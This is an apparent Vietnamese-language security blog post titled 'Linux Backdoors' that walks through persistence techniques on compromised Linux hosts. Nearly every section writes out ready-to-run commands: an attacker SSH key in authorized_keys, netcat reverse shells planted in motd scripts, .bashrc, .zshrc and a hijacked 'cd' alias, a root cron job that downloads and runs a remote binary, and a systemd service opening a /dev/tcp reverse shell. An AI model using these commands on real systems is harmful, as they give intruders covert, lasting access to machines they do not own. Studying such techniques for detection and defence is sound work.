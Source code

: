 +++
title = "Linux Backdoors"
description = ""
type = ["posts","post"]
tags = [
    "infosec",
    "linux",
]
date = "2021-06-28"
categories = [
    "infosec",
    "linux",
]
series = ["Linux"]
[ author ]
  name = "Quac Tran"
+++
Trong thực tế khi có quyền truy cập vào mục tiêu(SSH, VNC, interactive shell ...) thì việc để lại backdoor là một phần quan trọng để duy trì quyền truy cập vào hệ thống mục tiêu. Do đó, việc học một số kỹ thuật backdoor là điều cần thiết, không chỉ đối với những kẻ tấn công mà cả những người phòng thủ. Sau đây chúng ta sẽ tìm hiểu một số kĩ thuật backdoor thông dụng. Ở đây chúng ta chỉ thảo luận trong thế giới Linux!
### Backdoor là gì?
Backdoor là một đoạn mã ẩn, script hay chương trình đặt trên máy mục tiêu phục vụ cho mục đích truy cập dài hạn vào mục tiêu của kẻ tấn công,với điều đó bạn không phải khai thác cùng một hệ thống hai lần. Nó chỉ đơn giản là cung cấp cho bạn quyền truy cập nhanh hơn và tức thì vào hệ thống.
### 1. SSH Keys
SSH authorized_keys tập tin chứa một danh sách các ủy quyền người dùng / khóa công khai được phép đăng nhập vào một tài khoản cụ thể. Trong tệp này, những kẻ tấn công cũng có thể đặt các khóa công khai của chúng để tự cấp quyền và truy cập ngay vào hệ thống thông qua SSH.\
#### Victim
`ssh-keygen -t rsa`\
-> generate key pair\
`cat /$(whoami)/.ssh/id_rsa.pub > /$(whoami)/.ssh/authorized_keys`\
-> copy public key (id_rsa.pub) to authorized_keys
#### Attacker
Copy private key (id_rsa)\
`chmod 600 id_rsa`\
-> set permission \
`ssh -i id_rsa username@victim`\
-> ssh to victim\
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-key.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-key.PNG)
### 2. SSH motd
motd (Tin nhắn trong ngày) là banner xuất hiện khi bạn đăng nhập vào máy bằng SSH. Đối với Ubuntu / Debian các tập lệnh motd có thể được tìm thấy tại /etc/update-motd.d. Theo mặc định, những người dùng khác không có quyền ghi trên thư mục đó.
`cd /etc/update-motd.d && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' > 20-backdoor && chmod +x 20-backdoor`\
Lưu ý: & -> run command in background
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-motd.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-motd.PNG)
### 3. User’s .bashrc — Interactive session
.bashrc là một trong những tập lệnh khởi động được sử dụng bởi Bourne shell bash (zsh là .zshrc). Nếu có người dùng sử dụng bashlàm trình bao đăng nhập của họ, thì tập lệnh sẽ được thực thi cho mỗi phiên tương tác mà họ khởi chạy.\
`cd && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' >> .bashrc`\
`cd && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' >> .zshrc`\
sẽ nhận được reverse shell khi người dùng sử dụng lệnh `bash` hay `su username`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/bashrc.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/bashrc.PNG)
### 4. User’s .bashrc — Aliases
Là một kẻ tấn công, chúng ta cũng có thể đặt backdoor trong bí danh của người dùng! Đây cũng là 1 phương pháp tôi rất thích.\
`alias cd='$(nc 192.168.66.105 4444 -e /bin/bash &); cd'`\
-> Chúng ta sẽ nhận được reverse shell mỗi khi người dùng sử dụng lệnh cd
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/alias.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/alias.PNG)
Dưới đây là một số backdoor phức tạp khác sử dụng bí danh:
* [https://github.com/nisay759/sudo-backdoor](https://github.com/nisay759/sudo-backdoor)
* [https://gist.github.com/ahhh/1d4bf832c5a88cc75adb](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb)
### 5. Cron jobs
Cron là một tính năng từ OS like Linux / UNIX có thể được sử dụng để thực hiện định kỳ một công việc hoặc nhiệm vụ cụ thể giống như Task Scheduler trong Windows.\
`echo '* * * * * root cd /tmp; wget 192.168.66.105:8000/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/cron.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/cron.PNG)
### 6. Backdoor as a Service (BaaS)
Kẻ tấn công cũng có thể tạo một backdoor như một service (BaaS). Đây là một ví dụ về BaaS ( backdoor.service):
```bash
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.66.105/4444 0>&1"
[Install]
WantedBy=multi-user.target
```
Khi service được bắt đầu, nó khởi chạy một reverse shell cho kẻ tấn công.\
`cd /etc/systemd/system && systemctl start backdoor.service`\
Nó cũng có thể được kích hoạt khi enable.\
`cd /etc/systemd/system && systemctl enable backdoor.service`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/service.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/service.PNG)

